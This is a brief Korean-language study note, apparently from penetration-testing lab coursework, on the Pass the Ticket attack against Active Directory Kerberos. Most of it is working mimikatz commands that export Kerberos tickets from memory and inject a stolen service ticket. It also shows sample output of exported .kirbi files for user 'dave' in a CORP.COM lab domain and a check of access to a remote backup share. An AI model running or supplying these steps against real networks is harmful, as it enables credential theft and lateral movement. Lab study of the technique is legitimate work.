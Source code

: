 Overpass the Hash는 TGT를 획득하는 공격이다. TGT는 생성된 머신에서만 사용 가능하다는 단점이 있다.
TGS를 이용하는 Pass the Ticket은 더 유연하게 공격할 수 있다.

**mimikatz**
```powershell
privilege::debug
sekurlsa::tickets /export
```

티켓 export 이후 powershell
```powershell
PS C:\\Tools> dir *.kirbi

    Directory: C:\\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c6860]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c6860]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c7bcc]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c7bcc]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c933d]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c933d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1ca6c2]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1ca6c2]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
...
```

**mimikatz 로 TGS 티켓 주입**
```powershell
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

**티켓 발행 및 접근 권한 부여 확인**
```powershell
klist
ls \\\\web04\\backup
```